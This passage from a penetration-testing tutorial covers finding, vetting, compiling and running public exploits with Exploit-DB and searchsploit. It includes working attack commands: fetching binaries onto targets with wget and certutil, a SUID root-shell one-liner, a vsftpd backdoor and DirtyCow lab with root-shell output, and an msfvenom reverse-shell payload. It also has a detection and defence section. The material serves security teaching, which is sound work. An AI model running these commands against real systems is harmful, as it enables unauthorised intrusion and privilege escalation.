i686-w64-mingw32-gcc exploit.c -o exploit.exe

# Link a Windows socket library if the exploit uses sockets
x86_64-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32
```

**The precompiled-binary trap.** Some Windows privesc exploits (e.g. certain kernel exploits) are hard to compile and are distributed as precompiled `.exe` files in GitHub repos. Running a stranger's precompiled binary is far riskier than running source you have read — you cannot inspect it as easily. Prefer to compile from source you have read. If you must use a precompiled binary, only do so in a disposable lab, and scan/inspect it first (`strings`, `file`, a sandbox). Never drop an unvetted binary on a client's host.



**Getting the compiled exploit onto the target (for local/privesc exploits).** A local exploit must run *on* the box. Common transfer methods (covered fully in the post-exploitation notebook) — start a web server on Kali and pull it down on the target:

```bash
# On Kali, in the folder with the compiled exploit
python3 -m http.server 8000

# On the target (already have a low-priv shell)
wget http://10.10.14.5:8000/exploit -O /tmp/exploit && chmod +x /tmp/exploit
# Windows target:
certutil -urlcache -f http://10.10.14.5:8000/exploit.exe exploit.exe
```

---

## Part 11: The Wider Ecosystem — Beyond Exploit-DB

Exploit-DB is the anchor, but a thorough tester checks several sources, because coverage differs and the best exploit for your exact target may live elsewhere.

| Source | What it is | When to reach for it |
|---|---|---|
| **Exploit-DB / searchsploit** | Curated archive + offline CLI | First stop for any known-version vuln. |
| **Metasploit Framework** | Weaponised, parameterised modules | When a reliable module exists — far less manual fixing (Chapters 3–6). |
| **GitHub (PoC repos)** | Latest 1-days and 0-day PoCs | Recent CVEs not yet in Exploit-DB; often the *only* source for very new bugs. Higher trojan risk — read carefully. |
| **PacketStorm Security** | Long-running exploit/advisory archive | Older/alternative exploits, advisories, tools. |
| **0day.today** | Exploit marketplace (some paid) | Occasionally has exploits not elsewhere; treat with heavy suspicion. |
| **GTFOBins** | Unix binaries abused for privesc/bypass | Living-off-the-land privesc when a SUID/sudo binary is present — not a CVE exploit but often the fastest local win. |
| **LOLBAS** | Windows equivalent of GTFOBins | Windows living-off-the-land binaries/scripts. |
| **Vendor advisories / NVD** | Authoritative vuln detail | Confirm affected versions, patch levels, mitigations. |
| **Nuclei templates** | Detection (and some exploitation) templates | Mass-checking many hosts for a known issue. |

**searchsploit vs Metasploit — a crucial judgement.** When a Metasploit module exists and is reliable, prefer it: it handles the payload, the listener, the encoding, the target selection, and cleanup for you (all taught in Chapters 3–6). Reach for a raw Exploit-DB script when there is *no* module, when the module is unreliable against your build, or when you need to understand/modify the exploit precisely (OSCP-style exams famously restrict Metasploit, making manual searchsploit exploitation a required skill). `searchsploit` even tells you when a Metasploit version exists — note the `(Metasploit)` suffix in titles.

**GitHub PoCs — the modern reality.** For CVEs published in the last months, GitHub is often ahead of Exploit-DB. Search `CVE-2023-XXXXX` on GitHub, sort by recently updated, and read the code with *extra* care — GitHub is also where the most trojaned "PoCs" live, precisely because attackers know researchers clone and run them. The reading discipline from Part 8 applies double here.

**GTFOBins in one breath.** If enumeration shows a SUID binary or a sudo-allowed command (e.g. `find`, `vim`, `less`, `tar`, `python`), GTFOBins tells you the exact one-liner to abuse it for a root shell — no CVE, no compiling. It is not part of Exploit-DB, but it belongs in the same reflex: "I have a version/binary, what's the known abuse?"

```bash
# Example GTFOBins-style SUID privesc if find is SUID root:
find . -exec /bin/sh -p \; -quit
# -exec runs a command; -p keeps the elevated privileges; /bin/sh -p => root shell
```

---

## Part 12: Hands-On Lab — From Version Banner to Shell

This lab walks the entire chapter workflow end to end against a deliberately vulnerable target, using a real archived exploit. **Everything here runs against your own lab VMs only.**

**Lab build.**

- **Attacker:** Kali Linux VM, IP `10.10.14.5` (yours will differ — check `ip a`).
- **Target:** Metasploitable 2 (free, deliberately vulnerable), which runs `vsftpd 2.3.4` with the famous backdoor (CVE-2011-2523). Download from the VulnHub/Rapid7 mirror, import into VirtualBox/VMware on a host-only network. Assume its IP is `10.10.14.20`.

Both VMs on the same host-only/internal network so they can reach each other and neither touches the internet or your real LAN.

**Step 1 — Enumerate the service and version.**

```bash
nmap -sV -p 21 10.10.14.20
```

```
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

There it is: `vsftpd 2.3.4`. This exact version shipped, briefly, with a backdoor — connecting with a username ending in `:)` opens a root bind shell on port 6200.

**Step 2 — Find the exploit offline.**

```bash
searchsploit vsftpd 2.3.4
```

```
--------------------------------------------------------- ---------------------------------
 Exploit Title                                           |  Path
--------------------------------------------------------- ---------------------------------
vsftpd 2.3.4 - Backdoor Command Execution               | unix/remote/49757.py
vsftpd 2.3.4 - Backdoor Command Execution (Metasploit)  | unix/remote/17491.rb
--------------------------------------------------------- ---------------------------------
```

Two options: a standalone Python exploit (49757) and a Metasploit module (17491). We will use the Python one to practise the manual workflow this chapter is about.

**Step 3 — Read it before running it (Part 8 in practice).**

```bash
searchsploit -x 49757
```

Reading through `49757.py` you see it: connects to FTP port 21, sends `USER <something>:)` and a password to trigger the backdoor, then connects to the resulting root shell on **port 6200**, and gives you an interactive prompt. Crucially: there are **no hardcoded external IPs, no base64 blobs, no destructive commands** — only connections to the RHOST you provide and to port 6200 on that same host. It is safe to run. Note it needs the target IP passed in.

**Step 4 — Copy it into your working directory.**

```bash
mkdir -p ~/engagement/exploits && cd ~/engagement/exploits
searchsploit -m 49757
# Copied to: /home/kali/engagement/exploits/49757.py
```

**Step 5 — Check the language and fix Python version if needed.**

```bash
file 49757.py
# 49757.py: Python script, ASCII text executable
head -20 49757.py     # confirm Python 3 syntax (this one is Py3)
```

If it were Python 2 you would `2to3 -w 49757.py` or run with `python2`. This particular file is Python 3.

**Step 6 — Run it against the authorised target.**

```bash
python3 49757.py 10.10.14.20
```

```
[*] Attempting to trigger the vsftpd 2.3.4 backdoor on 10.10.14.20:21
[*] Backdoor triggered, connecting to root shell on 10.10.14.20:6200 ...
[+] Success! You have a root shell.
id
uid=0(root) gid=0(root)
whoami
root
uname -a
Linux metasploitable 2.6.24-16-server #1 SMP ... i686 GNU/Linux
```

You have `uid=0` — a root shell — via a public exploit you found offline, read, vetted, and ran. That is the entire loop of this chapter.

**Step 7 — Compare against the Metasploit path (optional, forward reference).** To see the other side of the searchsploit-vs-Metasploit trade-off:

```bash
msfconsole -q
msf6 > use exploit/unix/ftp/vsftpd_234_backdoor
msf6 > set RHOSTS 10.10.14.20
msf6 > run
# [+] Command shell session 1 opened ...
```

Same result, far less manual work — but you learned nothing about the mechanism, and it would be unavailable to you on a Metasploit-restricted exam. Both skills matter; this chapter builds the manual one. Metasploit gets four full chapters next.

**A second, compile-based mini-lab (privilege escalation).** To practise the compile path, on a low-privilege shell of a Linux target vulnerable to DirtyCow (CVE-2016-5195):

```bash
searchsploit dirtycow
searchsploit -m linux/local/40839.c        # 'dirtyc0w' passwd variant
head -25 40839.c                             # read the build+run line at top
gcc -pthread 40839.c -o dc -lcrypt           # compile per its instructions
# transfer 'dc' to the target, then on the target:
./dc                                          # follow its prompts; adds a root user
su firefart                                   # log in as the new root-uid user
id
# uid=0(firefart) gid=0(root)
```

This exercises reading, compiling with the documented flags, transferring, and running a *local* exploit — the other half of the ecosystem.

---

## Part 13: Detection & Defense Angle

Everything above is the offensive workflow. Here is what it looks like from the blue-team seat, so you understand the traces you leave and so you can defend when you sit on that side.

**How public-exploit use is detected.**

- **Signature-based IDS/IPS.** Snort/Suricata ship rules for well-known public exploits. Firing `49757.py` at vsftpd generates the exact backdoor-trigger sequence (`USER x:)`) that signatures flag; the follow-up connection to port **6200** is itself a glaring IOC — that port is otherwise meaningless. EternalBlue, Shellshock, Log4Shell and Apache path-traversal exploits all have mature signatures.
- **Anomalous ports and processes.** A web server suddenly spawning `bash`, `nc`, or `python`, or listening on an odd high port (like 6200), is a textbook detection. EDR flags a service process spawning a shell.
- **Version-then-exploit timing.** SIEM correlation: a version-probe/banner-grab immediately followed by a matched exploit attempt against that service is a strong signal of automated public-exploit tooling.
- **Failed exploits crash services.** A public exploit against the wrong build often crashes the service — a service restart in the logs with a preceding malformed request is a loud indicator that someone tried an offset-mismatched exploit.
- **Compiler / tool artefacts.** A dropped C file plus a fresh `gcc` invocation on a production host, or a downloaded `.exe` fetched via `certutil`/`wget`, are high-fidelity host IOCs.

**How defenders neutralise the underlying risk.**

- **Patch and version-manage.** The entire public-exploit threat is *known* vulnerabilities in *known* versions. Timely patching and removing end-of-life software (like vsftpd 2.3.4) eliminates the target. Maintain an accurate software inventory and diff it against CVE feeds — the same mapping the attacker does, done first.
- **Virtual patching / WAF & IPS rules.** When you cannot patch immediately, deploy an IPS/WAF signature for the specific CVE (e.g. block the Apache `%2e%2e` path-traversal pattern) as a stopgap.
- **Least privilege & segmentation.** A landed exploit does less damage if the service runs unprivileged and the host cannot reach crown-jewel networks — contain the blast radius.
- **Egress filtering.** Reverse shells need to call *out*. Restricting outbound connections from servers breaks the most common public-exploit payloads even when the exploit itself succeeds.
- **Detection engineering from the exploit itself.** As in Part 8, a captured exploit is a gift: extract its trigger request, callback address, dropped filenames and shellcode behaviour, and turn them into IDS rules, EDR detections and threat-hunt queries.

**IR use case:** during incident response, mapping the attacker's dropped exploit to its EDB-ID/CVE tells you *exactly* which vulnerability was used, what it grants, and therefore what to check next (did the root shell persist? new users? modified binaries?). The public archive that helped the attacker also helps you reconstruct their path.

---

## Part 14: Final Revision / Summary

- **Where it fits:** public exploits turn an enumerated *version* into code execution for *known* vulnerabilities. The value you add is finding, reading, trusting, fixing and safely running the code — not just downloading it.
- **Exploit-DB** is the curated archive; each entry has a stable **EDB-ID**, a type (remote/local/webapps/dos/shellcode), a platform, usually a **CVE**, and sometimes a "Verified" tick. One CVE ⇄ many exploits; absence of an exploit ≠ safe.
- **searchsploit** is the offline CLI over a local copy of that archive. Core loop: `searchsploit <product version>` → `-x` to read → `-p` for path/file-type → `-m` to copy out → adjust → run. Update with `-u`; go from a scan with `--nmap scan.xml`; query CVEs with `--cve`.
- **Read every exploit before running it.** Watch for hardcoded IPs, base64/hex `exec` blobs, destructive commands, and mismatched metadata — trojaned and fake "exploits" are real and target *you*. Decode blobs; disassemble embedded shellcode.
- **Predictable breakages:** wrong LHOST/RHOST, Python 2 vs 3, hardcoded offsets/target build mismatch, dead/wrong-arch shellcode, Windows line endings, missing deps, no listener. Each has a standard fix.
- **Compiling:** interpreted files just run (mind Py2/3); C files need the right toolchain — `gcc` (with `-m32`/`-static` to match arch) for Linux, `mingw-w64` cross-compile (or MSVC on Windows) for Windows. Prefer read source over stranger's precompiled binaries.
- **Ecosystem:** Metasploit (prefer when a reliable module exists), GitHub PoCs (newest CVEs, highest trojan risk), PacketStorm, GTFOBins/LOLBAS (living-off-the-land privesc), vendor advisories/NVD. `searchsploit` flags `(Metasploit)` versions for you.
- **Defence:** patch and retire EOL software, virtual-patch with IPS/WAF, least privilege + segmentation + egress filtering, and mine captured exploits for detections. Public-exploit use leaves loud IOCs (odd ports like 6200, service-spawned shells, dropped C files/`gcc`).

**Memory hook:** *Find → Read → Trust → Fix → Fire.* If you ever skip "Read" and "Trust", you are the target.

---

## Part 15: Cheat Sheet / Quick Reference

**searchsploit essentials**

```bash
searchsploit vsftpd 2.3.4              # basic AND search on title
searchsploit -t proftpd                # title-only search
searchsploit -e 'ProFTPd 1.3.5'        # exact phrase
searchsploit --cve 2021-41773          # search by CVE
searchsploit apache 2.4 --exclude=dos  # drop noise
searchsploit -w vsftpd                 # show exploit-db.com URLs
searchsploit -x 49757                  # READ the exploit in a pager
searchsploit -p 49757                  # full path + file type + clipboard
searchsploit -m 49757                  # copy exploit into cwd
searchsploit --nmap scan.xml           # exploits from an nmap -oX report
searchsploit -j apache | jq            # JSON output for scripting
searchsploit -u                        # update the local archive
```

**Local archive paths**

```
/usr/share/exploitdb/exploits/         # exploit files by platform/type
/usr/share/exploitdb/shellcodes/       # raw shellcode
/usr/share/exploitdb/files_exploits.csv# grep-able master index (CVE, verified cols)
```

**Fixing the common breakages**

```bash
2to3 -w exploit.py                     # Python 2 -> 3
python2 exploit.py                     # or just run with Python 2
dos2unix exploit.py                    # strip Windows CRLF
echo '<blob>' | base64 -d             # decode a suspicious base64 blob
# regenerate shellcode (see Ch.5):
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.5 LPORT=4444 -f python -b '\x00'
```

**Compiling**

```bash
gcc exploit.c -o exploit -pthread                 # Linux native
gcc -m32 -static exploit.c -o exploit -pthread     # 32-bit static
x86_64-w64-mingw32-gcc exploit.c -o exploit.exe -lws2_32   # Windows x64 cross
i686-w64-mingw32-gcc exploit.c -o exploit.exe              # Windows x86 cross
```

**Transfer to target (local exploits)**

```bash
python3 -m http.server 8000                                  # on Kali
wget http://10.10.14.5:8000/exploit -O /tmp/exploit          # Linux target
certutil -urlcache -f http://10.10.14.5:8000/x.exe x.exe     # Windows target
```

**Trust checklist before running any exploit**

```
[ ] Read the whole file top to bottom
[ ] Only connects to my RHOST / my LHOST listener — no stray IPs/URLs
[ ] No base64/hex/eval/exec blobs (or I decoded and verified them)
[ ] No rm -rf / mkfs / dd / format / shutdown
[ ] Embedded shellcode disassembled and understood
[ ] Type/platform/version match my target; targets[] entry chosen
[ ] Listener started FIRST; LPORT matches
```

**Identifier crib**

```
CVE-YYYY-NNNNN  -> the vulnerability (MITRE)
EDB-ID          -> one exploit in Exploit-DB (searchsploit key)
CWE             -> class of weakness
CVSS            -> severity score (not exploitability)
MS17-010 / KB   -> Windows bulletin / patch
```

---

## Part 16: Practice Labs & Resources

Train this chapter's exact skill — enumerate a version, find the public exploit, read/fix it, and get a shell — on these:

- **Metasploitable 2** (Rapid7/VulnHub) — the vsftpd 2.3.4 lab above, plus dozens of other version-specific public-exploit targets (UnrealIRCd 3.2.8.1 backdoor, distccd, Samba usermap script). The single best sandbox for searchsploit practice.
- **TryHackMe: "Blue"** — MS17-010 (EternalBlue); practise going from an SMB version to a public exploit and a SYSTEM shell.
- **TryHackMe: "Ice" / "Blaster" / "Steel Mountain"** — enumerate a service version, `searchsploit` it, adapt and run.
- **TryHackMe: "Vulnversity" and "RootMe"** — version-to-exploit workflow plus SUID/GTFOBins privesc.
- **HackTheBox: "Lame"** — classic distccd / Samba usermap public-exploit box; pure searchsploit-to-shell.
- **HackTheBox: "Legacy" and "Blue"** — Windows MS08-067 / MS17-010 public-exploit targets; practise the compile/cross-compile path and Metasploit-vs-manual choice.
- **VulnHub: "Kioptrix" series (Levels 1–4)** — old, deliberately vulnerable versions specifically designed for the enumerate → searchsploit → exploit loop; Level 1 (Samba/OpenSSL) is a perfect first manual-compile exercise.
- **PortSwigger Web Security Academy** — for the *webapps* exploit type: while not Exploit-DB-based, its labs teach you to read and adapt web exploits the same way.
- **Exploit-DB itself** (`exploit-db.com`) — browse by platform/type, read verified entries and their author write-ups; practise mapping CVEs to EDB-IDs by hand.
- **GTFOBins** (`gtfobins.github.io`) and **LOLBAS** (`lolbas-project.github.io`) — reference these every time enumeration surfaces a SUID binary or an unusual allowed command.

**Practice questions.**

1. `nmap` reports `ProFTPD 1.3.5`. Write the three progressively-narrower `searchsploit` commands you would run, and explain why you would not paste the full banner (including any `a`/patch suffix) into the first search.
2. You download a Python "RCE exploit" and, near the bottom, find `exec(base64.b64decode("..."))`. Describe exactly how you would determine whether it is safe to run, and what specific findings would make you reject it.
3. A C exploit for a 32-bit Linux target fails to run on the target with a missing-library error, though it compiled fine on your 64-bit Kali. Give the exact `gcc` command that would most likely fix this and explain each flag.
4. You run a reverse-shell exploit against your lab target; the script prints success but you catch nothing. List, in order, the four things you would check, and the command to verify each.
5. For the same CVE you find both a standalone Exploit-DB Python script and a `(Metasploit)` module. Give two concrete situations where you would deliberately choose the manual script over the Metasploit module.

Work each one until you can do it without notes. The next chapter (Chapter 3) opens the Metasploit Framework — the same exploitation goal, but with the payload, listener, encoding and target selection handled for you — which is exactly why learning the manual searchsploit workflow *first* matters.

---

*Also on [Praneeth's portfolio](https://ping-praneeth.vercel.app/notebook/pentest-exploitation/02-finding-and-using-public-exploits-exploit-db-and-searchsploit), with comments and the latest edits.*
